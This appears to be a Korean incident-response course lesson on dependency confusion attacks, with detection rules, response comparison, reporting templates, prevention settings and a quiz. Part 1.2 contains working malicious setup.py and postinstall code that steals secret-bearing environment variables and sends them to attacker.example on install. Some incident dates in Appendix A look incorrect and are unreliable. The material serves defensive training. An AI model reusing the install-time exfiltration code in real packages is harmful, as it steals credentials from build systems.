









# Week 01: 공급망 Dependency Confusion — 에이전트가 파이썬·노드 생태계를 해킹하다

## 이번 주의 위치
본 심화과정의 첫 사례. 학생은 C19에서 배운 *공격→탐지→대응*의 *메타 절차*를 구체 공격에 적용하는 훈련을 시작한다. 선택된 사례는 2021년 Alex Birsan이 입증한 **Dependency Confusion**이다. 공격 자체는 원리가 단순하지만, **에이전트가 이 공격을 자동화**하는 순간 *표적 조직 수천 개*에 동시 시도가 가능해져 현실적 위협으로 확대된다. 이번 주는 이 공격의 *완전한 IR 절차*를 처음부터 끝까지 다룬다.

## 학습 목표
- Dependency Confusion 공격의 메커니즘을 *코드 수준*까지 설명한다
- 에이전트가 이 공격을 *자동화*하는 과정을 재현하고, 그 시그니처를 수집한다
- 공격→탐지→분석→초동대응→보고→재발방지의 **6단계 IR 절차**를 완결한다
- **Human 대응 vs Agent 대응**을 동일 시나리오에서 비교해 그 차이를 서술한다
- 조직의 빌드 파이프라인에서 *3가지 이상* 재발방지 조치를 설계한다

## 전제 조건
- C19(AI Agent 공격 침해대응) 완료 — Bastion 사용, 6단계 개념
- Python 패키징 기초 (`pip`, `setup.py`, `pyproject.toml`)
- npm 기초 (`package.json`, `node_modules`)
- CI/CD 개념

## 실습 환경 (본 과정 공통)

| 호스트 | IP | 역할 |
|--------|-----|------|
| bastion | 10.20.30.201 | Blue Agent · 관제 |
| secu | 10.20.30.1 | 방화벽/IPS · 네트워크 관찰 |
| web | 10.20.30.80 | 공격 표적 · CI runner 역할 |
| siem | 10.20.30.100 | Wazuh · OpenCTI |
| registry | 10.20.30.150 (new) | 내부 PyPI/npm 레지스트리 모사 (devpi·verdaccio) |
| attacker | 강사 PC | Claude Code 공격 세션 |

**Bastion API:** `http://localhost:9100` / Key: `ccc-api-key-2026`

> 본 과정은 매 주차 **동일 6단계 절차**를 따른다. 주차가 달라도 절차는 고정된다. 달라지는 것은 *공격 유형·시그니처·대응 지점*이다.

## 본 과정의 *메타 6단계 절차*



## 강의 시간 배분 (3시간)

| 시간 | 내용 |
|------|------|
| 0:00-0:40 | Part 1: 공격 해부 — Dependency Confusion |
| 0:40-1:10 | Part 2: 탐지 |
| 1:10-1:20 | 휴식 |
| 1:20-1:50 | Part 3: 분석 |
| 1:50-2:30 | Part 4: 초동대응 (Human vs Agent 비교) |
| 2:30-2:40 | 휴식 |
| 2:40-3:10 | Part 5: 보고·상황 공유 |
| 3:10-3:30 | Part 6: 재발방지 |
| 3:30-3:40 | 퀴즈 + 과제 |

---

## 용어 해설 (공격 특화)

| 용어 | 영문 | 설명 |
|------|------|------|
| **Dependency Confusion** | — | 내부 전용 패키지 이름을 공개 레지스트리에 *더 높은 버전*으로 업로드하면, 빌드 도구가 공개 버전을 우선 설치하는 공격 |
| **Typosquatting** | — | 인기 패키지와 *오탈자 유사* 이름으로 악성 패키지 배포 |
| **Upstream** | — | 공개 레지스트리 (pypi.org, registry.npmjs.org) |
| **Downstream** | — | 조직 내부 레지스트리 (devpi, Artifactory) |
| **Post-install script** | — | 패키지 설치 시 자동 실행되는 훅 (`postinstall` in npm, `setup.py` in pip) |
| **Manifest** | — | `pyproject.toml`, `package.json` — 의존성 명세 |

---

# Part 1: 공격 해부 — Dependency Confusion (40분)

## 1.1 공격 원리 (1분 요약)

1. 공격자가 표적 조직의 *내부 전용 패키지 이름*을 알아냄 (공개 저장소 실수 커밋·HTTP 스캐닝)
2. 동일 이름의 패키지를 **공개 레지스트리**에 *매우 높은 버전*(예: 9999.99.99)으로 업로드
3. 표적의 CI/빌드가 `pip install`·`npm install` 실행 시, 기본 설정에서는 **공개 레지스트리의 더 높은 버전을 우선** 설치
4. 공격자 패키지의 **post-install 스크립트**가 CI runner에서 임의 코드 실행
5. 환경변수·자격증명·소스코드 유출 → 내부망 침투

### 1.1.1 실제 작동 조건 — "왜 이것이 유효한가"

빌드 도구의 기본 설정이 *대개* 다음과 같다.

- `pip`: `--extra-index-url`로 내부 레지스트리 지정 시, 양쪽 모두 조회하고 *더 높은 버전* 선택
- `npm`: 글로벌·프로젝트 `.npmrc`에 private registry 지정 시, *scope 규칙* 없으면 공개 우선
- `yarn 1.x`: npm과 동일한 문제
- `pnpm`: 유사

조직은 수백~수천 개의 *내부 패키지*를 가지며, 이름이 *공개 레지스트리에 없다는 전제*로 운영된다. 공격자가 한 번이라도 이름 목록을 알아내면 *전 패키지 동시 공격* 가능.

## 1.2 에이전트의 자동화 — 6단계



### 1.2.1 에이전트가 만드는 악성 패키지 — 코드 샘플

```python
# setup.py
from setuptools import setup
import os, sys, urllib.request, json, platform

def phone_home():
    try:
        data = {
            "host": platform.node(),
            "user": os.environ.get("USER", "unk"),
            "env": {k: v for k, v in os.environ.items()
                    if any(s in k.lower() for s in ["key","token","secret","pass"])},
            "cwd": os.getcwd(),
        }
        urllib.request.urlopen(
            "http://attacker.example/collect",
            data=json.dumps(data).encode(),
            timeout=3,
        )
    except Exception:
        pass

phone_home()   # setup 실행 시 한 번

setup(
    name="internal-company-utils",  # 피해 조직의 내부 패키지명
    version="9999.99.99",           # 내부 버전보다 높게
    packages=[],
    install_requires=[],
)
```

에이전트는 이 스크립트를 *표적마다* 다르게 생성한다 — 이름·버전·phone-home URL·동작 내용을 커스텀.

### 1.2.2 npm 버전 — `package.json`

```json
{
  "name": "@internal-company/utils",
  "version": "9999.99.99",
  "scripts": {
    "postinstall": "node preload.js"
  }
}
```

```javascript
// preload.js
const os = require('os'); const http = require('http');
const data = JSON.stringify({
  host: os.hostname(),
  env: Object.fromEntries(
    Object.entries(process.env).filter(([k]) =>
      /key|token|secret|pass/i.test(k))
  ),
});
http.request({host:'attacker.example',path:'/collect',method:'POST',
  headers:{'Content-Type':'application/json','Content-Length':data.length}},
  () => {}).end(data);
```

### 1.2.3 공격 규모의 *에이전트 효과*

사람 공격자: 1조직 × 1이름 = 1시도 (며칠)
에이전트: 500조직 × 평균 50이름 = **25,000 동시 시도** (수 시간)

*"25,000 중 1개라도 CI가 돌면 침투"*라는 산업 자동화가 된다.

### 1.2.4 공격 자체의 *비용*

공격자는 패키지 업로드에 *등록·API 키* 필요. 과거: 무료·규제 약함. 현재(2026): 일부 레지스트리에 신원 확인·속도 제한. 그럼에도 에이전트가 *수백 개 일회성 계정*을 만들어 분산 가능.

## 1.3 본 실습에서 재현할 축소 시나리오

- `registry` VM에 *내부 PyPI(devpi)* 설치 — 조직 내부 레지스트리 모사
- 에이전트가 공개 레지스트리(외부) 대신 **강사 준비 악성 패키지 저장소**를 사용
- 피해자 역할: `web` VM의 가상 CI 파이프라인이 `pip install` 시도
- 공격 성공 시 `web`의 환경변수가 *강사 수집 서버*로 POST

> **안전 원칙**: 실제 pypi.org에 업로드하지 않는다. 모든 패키지는 *실습 인프라 내부*에서만 유통된다.

---

# Part 2: 탐지 (30분)

## 2.1 탐지의 관측점 3곳



## 2.2 관측점별 신호

### 관측점 1 — CI 네트워크 egress
- **공개 pypi.org 접근** (특히 CI가 *내부 전용*이어야 할 때)
- DNS 조회 `pypi.org`, `registry.npmjs.org`
- Suricata로 식별 가능

### 관측점 2 — 빌드 로그
- 패키지 버전 로그: `internal-utils==9999.99.99`
- 다운로드 크기 이상 (정상 대비 과소)
- `pip`의 *publisher* 표시 (해시 변화)

### 관측점 3 — post-install 행위
- 짧은 execve 후 외부 연결
- 환경변수 읽기 패턴
- 파일 시스템 접근

## 2.3 SIGMA 룰 초안

```yaml
title: Dependency Confusion — External egress during pip install
logsource:
  product: suricata
  category: flow
detection:
  selection:
    dest_domain:
      - pypi.org
      - registry.npmjs.org
    src_network: "internal_ci_range"
  condition: selection
fields: [src_ip, dest_domain, app_proto]
falsepositives:
  - 내부 미러가 upstream으로 fetching (정상 방향)
level: medium
```

## 2.4 Wazuh 룰 예

```xml
<rule id="100801" level="10">
  <if_sid>60000</if_sid>  <!-- Suricata flow -->
  <match>pypi.org</match>
  <field name="src_ip">10\.20\.30\.80</field>
  <description>Dependency Confusion suspect — CI accessed public PyPI</description>
</rule>

<rule id="100802" level="12" frequency="3" timeframe="300">
  <if_matched_sid>100801</if_matched_sid>
  <description>Repeated external PyPI access from CI</description>
</rule>
```

## 2.5 Bastion 스킬: `detect_dep_confusion`

```python
def detect_dep_confusion(ci_network_events):
    """내부 CI가 공개 레지스트리에 연결했는지 감지"""
    suspicious = [e for e in ci_network_events
                  if e.dest_domain in PUBLIC_REGISTRIES
                  and e.src_ip in CI_INTERNAL_RANGE]
    return suspicious
```

### 2.5.1 정상 방향과 구분하는 법

내부 미러(devpi)가 *upstream*에서 패키지를 가져오는 것은 정상이다. 구분:

- 정상: `devpi(10.20.30.150)` → `pypi.org`
- 공격: `CI runner(10.20.30.80)` → `pypi.org`

*직접 연결*이 공격 지문.

---

# Part 3: 분석 (30분)

## 3.1 분석 단계의 질문들

1. 어떤 패키지가 설치되었나?
2. 설치 후 어떤 프로세스가 실행됐나?
3. 무엇이 외부로 나갔나?
4. 다른 시스템에도 확산됐나?

## 3.2 분석 절차



## 3.3 IOC·IOA 수집

| IOC | 예 |
|-----|----|
| 악성 패키지명+버전 | `internal-company-utils==9999.99.99` |
| 외부 도메인 | `attacker.example`, `collect-*.n.mydomain.tk` |
| SHA256 (패키지 tarball) | ... |

| IOA | 예 |
|-----|----|
| CI 직접 pypi.org 접근 | |
| post-install 단계의 외부 POST | |
| 환경변수 대량 읽기 (env | grep) | |

## 3.4 범위 평가

- **1개 CI만 영향**: 한 빌드 시도에서 발생
- **팀 단위 영향**: 공유 환경변수 유출 시
- **조직 전체**: 유출된 자격증명이 중앙 인증

범위 평가는 *대응 강도*를 결정한다.

---

# Part 4: 초동대응 (Human vs Agent 비교 · 40분)

## 4.1 초동대응 목표

1. **억제(Contain)**: 피해 확산 방지 (즉시)
2. **제거(Eradicate)**: 악성 아티팩트 제거
3. **회복(Recover)**: 정상 운영으로 복귀

## 4.2 Human 분석가의 대응 흐름



총 소요: 30~90분 (경보 발생 ~ 초동 억제 완료)

## 4.3 Agent(Bastion) 대응 흐름



총 소요: 30초 ~ 2분 (자동 대응)

## 4.4 두 방식의 직접 비교

| 축 | Human | Agent (Bastion) |
|----|-------|-----------------|
| 첫 조치까지 시간 | 10~30분 | **5~30초** |
| 조치의 *일관성* | 사람별 차이 | 동일 Playbook |
| 피로·24시간 | 불가 | **가능** |
| 정책 정합성 판단 | *강함* | 제한적 |
| 조직 영향·SLA 판단 | *강함* | 학습 중 |
| 법적·윤리 판단 | *강함* | **사람이 유지** |
| 대량 병렬 대응 | 어려움 | **쉬움** |

### 4.4.1 *혼성* 운영이 최선

본 과목이 제시하는 답은 *Human만* 또는 *Agent만*이 아니다.

- **Tier 0 (초·분)**: Agent가 자동 — 첫 차단·회전
- **Tier 1 (분~시간)**: Agent 1차 → Human 검수 → Agent 실행
- **Tier 2 (시간~일)**: Human 주도 — 포렌식·법적·경영 판단

### 4.4.2 실습 — Human vs Agent 타임 측정

학생은 실습에서 **두 역할을 순차 수행**한다.

1. 첫 번째 시나리오: *Human 모드*로 대응 (Bastion 자동 대응 비활성)
2. 두 번째 시나리오: *Agent 모드*로 대응 (Bastion 자동화)
3. 시간·정확도 비교표 작성

### 4.4.3 *Agent 오판*의 대응

Agent가 잘못된 자동 대응을 할 때:



---

# Part 5: 보고·상황 공유 (30분)

## 5.1 보고 대상과 *다른 내용*



각 대상에게 *같은 내용*을 보내면 안 된다. 임원에게는 1쪽, 기술팀에게는 상세 IOC·타임라인, 법무에게는 법적 함의, 고객·외부에는 *공개 가능 범위*만.

## 5.2 임원 브리핑 1쪽 양식

```markdown
# Incident Summary — Dependency Confusion (D+1 hour)

**What happened**: 외부 악성 패키지가 내부 CI runner에서 실행되어 일부 환경변수가
                   외부 도메인으로 유출 시도됨. Bastion이 28초 내 외부 egress 차단.

**Impact**: CI 1건 영향. 자격증명 1건 회전 완료. 고객 데이터 영향 *없음*.

**Status**: 억제 완료. 포렌식 진행 중.

**Ask (of leadership)**: 내부 레지스트리 정책 강제(D+7 예정)에 대한 승인.
```

## 5.3 외부 공개 가이드

- 개인정보 영향 있는 경우: GDPR 72시간·개인정보보호법 신고
- 금융업: 금융감독원 보고 (해당 시)
- 공급망 영향: 영향 조직에 *사실*만 공유 (CERT·ISAC 경유 권장)
- *내부 룰 ID·호스트명·IP* 절대 공개 금지

## 5.4 외부 CTI 공유 (OpenCTI)

```
Observable (IOC) → Indicator → Report → External feed
  악성 도메인         지표          내부         외부 (선택)
```

악성 도메인·패키지명·SHA256을 *내부 OpenCTI*에 등록하고, *공개 가능한 정보*만 외부 CTI 피드에 업로드한다.

---

# Part 6: 재발방지 (20분)

## 6.1 예방 3층 — Dependency Confusion



## 6.2 1층 — 정책 (가장 효과적)

- **내부 패키지는 scope 사용** (`@company/*`, `company-*`)
- **공개 레지스트리 직접 접근 금지**: CI에서 `pypi.org`·`npmjs.org` 접근 불가
- **내부 레지스트리만 허용**: devpi·Artifactory·Nexus
- **Upstream pull은 *백엔드에서만***

## 6.3 2층 — 도구 설정

```ini
# pip.conf (조직 전역)
[global]
index-url = https://devpi.internal/simple/
no-index = false
```

```ini
# .npmrc
registry=https://nexus.internal/repository/npm-group/
@internal:registry=https://nexus.internal/repository/npm-private/
always-auth=true
```

## 6.4 3층 — 탐지 (지속적)

- Bastion의 `detect_dep_confusion` 스킬이 *주기적* 감시
- 주 1회 *모든 내부 패키지명*이 공개 레지스트리에 *없음*을 확인
- 신규 내부 패키지 등록 시 *즉시* 공개 레지스트리에 *placeholder* 업로드(방어적)

## 6.5 조직 수준 체크리스트

- [ ] 전사 `.npmrc`·`pip.conf` 표준 적용
- [ ] 내부 레지스트리 upstream을 *proxy*로만 사용
- [ ] CI runner egress default-deny
- [ ] 내부 패키지명 공개 레지스트리 *상시 스캔*
- [ ] 신규 패키지 등록 자동화 (placeholder 포함)
- [ ] CI 빌드 로그의 패키지 버전 상시 모니터링
- [ ] 자격증명의 *빌드 시 단일 사용* (회전 자동화)

---

## 자가 점검 퀴즈 (10문항)

**Q1.** Dependency Confusion이 동작하는 기본 전제는?
- (a) 인터넷이 느림
- (b) **공개 레지스트리의 더 높은 버전이 기본 설정에서 우선**
- (c) 사용자 실수
- (d) SSL 미적용

**Q2.** 에이전트 자동화가 이 공격을 *현실 위협*으로 확대시키는 이유는?
- (a) 비용
- (b) **수천 조직 × 수십 패키지 동시 시도 가능**
- (c) 속도 저하
- (d) 법적 제재

**Q3.** npm scope `@internal-company/`이 주는 방어 효과는?
- (a) 보안이 전혀 향상 안 됨
- (b) **scope 기반 registry 라우팅으로 공개 레지스트리 탈락 유도**
- (c) 속도 향상
- (d) 라이선스 추적

**Q4.** Bastion 자동 대응이 Human 대비 *가장* 우수한 축은?
- (a) 판단력
- (b) **초·분 단위 반응 시간과 대량 병렬**
- (c) 법적 판단
- (d) 경영 판단

**Q5.** 포렌식 단계에서 *가장 먼저* 확보할 증거는?
- (a) 경영 보고서
- (b) **CI 빌드 로그 + 외부 egress 기록**
- (c) 재발방지안
- (d) 브리핑 자료

**Q6.** 외부 공유 시 *절대 공개하지 않을* 항목은?
- (a) IOC
- (b) 공격 기법 일반론
- (c) **내부 호스트명·IP·룰 ID**
- (d) 사건 요지

**Q7.** 재발방지 1층(정책)의 핵심은?
- (a) 탐지 룰 추가
- (b) **공개 레지스트리 직접 접근 금지**
- (c) 로깅 확대
- (d) 사용자 교육

**Q8.** "Tier 0" 자동 대응이 담당하는 시간대는?
- (a) 시간~일
- (b) 분~시간
- (c) **초~분**
- (d) 주~월

**Q9.** 임원 브리핑 1쪽에서 *가장 중요한* 항목은?
- (a) 기술 상세
- (b) **What happened · Impact · Status · Ask**
- (c) 로그 덤프
- (d) 개인정보

**Q10.** 에이전트 시대에 *재발방지*의 우선순위 1번은?
- (a) 탐지 룰 추가
- (b) **정책 수준의 접근 제한 (default-deny egress + scope 강제)**
- (c) 인력 증원
- (d) 로그 저장

**정답:** Q1:b · Q2:b · Q3:b · Q4:b · Q5:b · Q6:c · Q7:b · Q8:c · Q9:b · Q10:b

---

## 과제

1. **공격 재현 (필수)**: 본인 실습 환경에서 축소 Dependency Confusion 재현. 악성 패키지 `.tar.gz` 1개 + CI 빌드 실패 또는 phone-home 캡처 pcap.
2. **6단계 IR 보고서 (필수)**: 공격→탐지→분석→초동대응→보고→재발방지 전 절차를 하나의 Markdown 보고서로 (4~6쪽). 본 주차 템플릿 사용.
3. **Human vs Agent 비교표 (필수)**: 4.4.2 측정 결과. 각 단계별 소요 시간과 정확도.
4. **(선택 · 🏅 가산)**: 조직의 `.npmrc`·`pip.conf` 표준 템플릿 설계.
5. **(선택 · 🏅 가산)**: 내부 패키지명의 *공개 레지스트리 노출 스캐너* 스크립트.

---

## 부록 A. 실제 사건 사례 (공개 정보)

- **2021-02 Alex Birsan** — 원래의 연구. Apple·Microsoft·PayPal 등 35개 기업 침투 증명.
- **2023-04 PyPI 악성 패키지 대규모 유출 사건** — `3CX`·`colorama` 변종
- **2024-11 npm supply chain attack on `ua-parser-js`** (역사적 사례)

본 공격 유형은 *계속* 발생 중이다. 에이전트 시대에는 *빈도·규모* 양쪽이 증가한다.

## 부록 B. 본 주차 산출물 체계

```
artifacts/w01-dep-confusion/
  attack/
    malicious-pkg.tar.gz
    setup.py
    README.md
  detection/
    sigma-rule.yml
    wazuh-rule.xml
    skill-detect_dep_confusion.py
  analysis/
    ioc.csv
    timeline.md
  response/
    human-mode-log.md
    agent-mode-log.md
    comparison-table.md
  report/
    exec-brief.md
    technical.md
    legal.md
  prevention/
    policy-draft.md
    npmrc.template
    pip.conf.template
```

이 구조가 *본 과정 15주 전체의 공통 산출물 폼*이다. 매 주차 동일 구조로 제출.
